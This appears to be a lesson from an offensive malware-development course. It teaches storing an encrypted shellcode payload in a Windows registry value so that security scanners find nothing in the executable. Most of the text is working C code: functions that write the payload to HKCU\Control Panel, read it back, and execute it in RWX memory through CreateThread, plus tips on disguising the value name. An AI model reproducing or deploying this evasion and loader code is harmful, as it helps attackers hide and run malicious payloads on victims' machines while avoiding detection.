








Introduction
The previous module showed that a payload does not necessarily need to be stored inside the malware. Instead, the payload can be fetched at runtime by the malware. This module will show a similar technique, except the payload will be written as a registry key value and then fetched from the Registry when required. Since the payload will be stored in the Registry, if security solutions scan the malware they will be unable to detect or find any payload within.
This code in this module is divided into two parts. The first part is writing the encrypted payload to a registry key. The second part reads the payload from the same registry key, decrypts it and executes it. The module will not explain the encryption/decryption process as this was explained in prior modules.
This module will also introduce the concept of Conditional Compilation.
Conditional Compilation
Conditional compilation is a way to include code inside a project which the compiler will either compile or not compile. This will be used by the implementation to decide whether it's reading or writing to the Registry.
The two sections below provide skeleton code as to how the read and write operations will be written using conditional compilation.
Write Operation
#define WRITEMODE// Code that will be compiled in both cases
// if 'WRITEMODE' is defined
#ifdef WRITEMODE// The code that will be compiled
// Code that's needed to write the payload to the Registry
#endif// if 'READMODE' is defined
#ifdef READMODE// Code that will NOT be compiled
#endifRead Operation
#define READMODE// Code that will be compiled in both cases
// if 'READMODE' is defined
#ifdef READMODE// The code that will be compiled
// Code that's needed to read the payload from the Registry
#endif
// if 'WRITEMODE' is defined
#ifdef WRITEMODE// Code that will NOT be compiled
#endifWriting To The Registry
This section will walk through the WriteShellcodeToRegistry function. The function takes two parameters:
pShellcode - The payload to be written.dwShellcodeSize - The size of the payload to be written.REGISTRY & REGSTRING
The code starts with two pre-defined constants REGISTRY and REGSTRING which are set to Control Panel and Offensive Engineering Handbook respectively.
// Registry key to read / write
#define REGISTRY "Control Panel"#define REGSTRING "Offensive Engineering Handbook"REGISTRY is the name of the registry key that will hold the payload. The full path of REGISTRY will be Computer\HKEY_CURRENT_USER\Control Panel.

What the function will be doing programmatically is creating a new String Value under this registry key to store the payload. REGSTRING is the name of the string value that will be created. Obviously, in a real situation, use a more realistic value such as PanelUpdateService or AppSnapshot.

Opening a Handle To The Registry Key
The RegOpenKeyExA WinAPI is used to open a handle to the specified registry key which is a prerequisite to creating, editing or deleting values under the registry key.
LSTATUS RegOpenKeyExA(
[in] HKEY hKey, // A handle to an open registry key
[in, optional] LPCSTR lpSubKey, // The name of the registry subkey to be opened (REGISTRY constant)
[in] DWORD ulOptions, // Specifies the option to apply when opening the key - Set to 0
[in] REGSAM samDesired, // Access Rights
[out] PHKEY phkResult // A pointer to a variable that receives a handle to the opened key
);The fourth parameter of the RegOpenKeyExA WinAPI defines the access rights to the registry key. Because the program needs to create a value under the registry key, KEY_SET_VALUE was selected. The full list of registry access rights can be found here.
STATUS = RegOpenKeyExA(HKEY_CURRENT_USER, REGISTRY, 0, KEY_SET_VALUE, &hKey);Setting Registry Value
Next, the RegSetValueExA WinAPI is used which takes the opened handle from RegOpenKeyExA and creates a new value that is based on the second parameter, REGSTRING. It will also write the payload to the newly created value.
LSTATUS RegSetValueExA(
[in] HKEY hKey, // A handle to an open registry key
[in, optional] LPCSTR lpValueName, // The name of the value to be set (REGSTRING constant)
DWORD Reserved, // Set to 0
[in] DWORD dwType, // The type of data pointed to by the lpData parameter
[in] const BYTE *lpData, // The data to be stored
[in] DWORD cbData // The size of the information pointed to by the lpData parameter, in bytes
);It is also worth noting that the fourth parameter specifies the data type for the registry value. In this case, it's set to REG_BINARY since the payload is simply a list of bytes but the complete list of data types can be found here.
STATUS = RegSetValueExA(hKey, REGSTRING, 0, REG_BINARY, pShellcode, dwShellcodeSize);Closing Registry Key Handle
Finally, RegCloseKey is used to close the handle of the registry key that was opened.
LSTATUS RegCloseKey(
[in] HKEY hKey // Handle to an open registry key to be closed
);Writing To The Registry - Code Snippet
// Registry key to read / write
#define REGISTRY "Control Panel"#define REGSTRING "Offensive Engineering Handbook"
BOOL WriteShellcodeToRegistry(IN PBYTE pShellcode, IN DWORD dwShellcodeSize) {
BOOL bSTATE = TRUE;
LSTATUS STATUS = NULL;
HKEY hKey = NULL;
printf("[i] Writing 0x%p [ Size: %ld ] to \"%s\\%s\" ... ", pShellcode, dwShellcodeSize, REGISTRY, REGSTRING);
STATUS = RegOpenKeyExA(HKEY_CURRENT_USER, REGISTRY, 0, KEY_SET_VALUE, &hKey);
if (ERROR_SUCCESS != STATUS) {
printf("[!] RegOpenKeyExA Failed With Error : %d\n", STATUS);
bSTATE = FALSE; goto _EndOfFunction;
}
STATUS = RegSetValueExA(hKey, REGSTRING, 0, REG_BINARY, pShellcode, dwShellcodeSize);
if (ERROR_SUCCESS != STATUS){
printf("[!] RegSetValueExA Failed With Error : %d\n", STATUS);
bSTATE = FALSE; goto _EndOfFunction;
}
printf("[+] DONE ! \n");
_EndOfFunction:
if (hKey)
RegCloseKey(hKey);
return bSTATE;
}Reading The Registry
Now that the payload has been written to the Offensive Engineering Handbook string under the Computer\HKEY_CURRENT_USER\Control Panel registry key, it is time to write the other implementation which will contain the decryption functionality that HellShell.exe provided.
This section will walk through the ReadShellcodeFromRegistry function (shown below). The function takes two parameters:
sPayloadSize - The payload size to read.ppPayload - A buffer that will store the outputted payload.Heap Allocation
The function starts by allocating memory to the size of sPayloadSize which will store the payload.
pBytes = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sPayloadSize);Read Registry Value
The RegGetValueA function requires the registry key and value to read, which are REGISTRY and REGSTRING, respectively. In the previous module, it was possible to fetch the payload from the internet in several chunks of any size, however, when working with RegGetValueA this is not possible since it does not read the bytes as a stream of data but rather all at once. All of this means that knowing the payload size is a requirement in the reading implementation.
LSTATUS RegGetValueA(
[in] HKEY hkey, // A handle to an open registry key
[in, optional] LPCSTR lpSubKey, // The path of a registry key relative to the key specified by the hkey parameter
[in, optional] LPCSTR lpValue, // The name of the registry value.
[in, optional] DWORD dwFlags, // The flags that restrict the data type of value to be queried
[out, optional] LPDWORD pdwType, // A pointer to a variable that receives a code indicating the type of data stored in the specified value
[out, optional] PVOID pvData, // A pointer to a buffer that receives the value's data
[in, out, optional] LPDWORD pcbData // A pointer to a variable that specifies the size of the buffer pointed to by the pvData parameter, in bytes
);The fourth parameter can be used to restrict the data type, however, this implementation uses RRF_RT_ANY, signifying any data type. Alternatively, RRF_RT_REG_BINARY could have been used since the payload is of binary data type. Lastly, the payload is read to pBytes which was previously allocated using HeapAlloc.
STATUS = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);Reading Registry - Code Snippet
BOOL ReadShellcodeFromRegistry(IN DWORD sPayloadSize, OUT PBYTE* ppPayload) {
LSTATUS STATUS = NULL;
DWORD dwBytesRead = sPayloadSize;
PVOID pBytes = NULL;
pBytes = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sPayloadSize);
if (pBytes == NULL){
printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
return FALSE;
}
STATUS = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);
if (ERROR_SUCCESS != STATUS) {
printf("[!] RegGetValueA Failed With Error : %d\n", STATUS);
return FALSE;
}
if (sPayloadSize != dwBytesRead) {
printf("[!] Total Bytes Read : %d ; Instead Of Reading : %d\n", dwBytesRead, sPayloadSize);
return FALSE;
}
*ppPayload = pBytes;
return TRUE;
}Executing Payload
Once the payload is read from the registry and stored inside the allocated buffer, the RunShellcode function is used to execute the payload. Note that this function was explained in earlier modules.
BOOL RunShellcode(IN PVOID pDecryptedShellcode, IN SIZE_T sDecryptedShellcodeSize) {
PVOID pShellcodeAddress = NULL;
DWORD dwOldProtection = NULL;
pShellcodeAddress = VirtualAlloc(NULL, sDecryptedShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pShellcodeAddress == NULL) {
printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);
memcpy(pShellcodeAddress, pDecryptedShellcode, sDecryptedShellcodeSize);
memset(pDecryptedShellcode, '\0', sDecryptedShellcodeSize);
if (!VirtualProtect(pShellcodeAddress, sDecryptedShellcodeSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("[#] Press <Enter> To Run ... ");
getchar();
if (CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Writing To The Registry - Demo
Before executing the compiled code shown above, the registry key looks like this:

After running the program, a new registry string value is created with the RC4 encrypted payload.

Double-clicking on Offensive Engineering Handbook will show the payload in HEX and ASCII format.

Reading The Registry - Demo
The program begins by reading the encrypted payload from the Registry.

Next, the program will decrypt the payload.

Finally, the decrypted payload is executed.
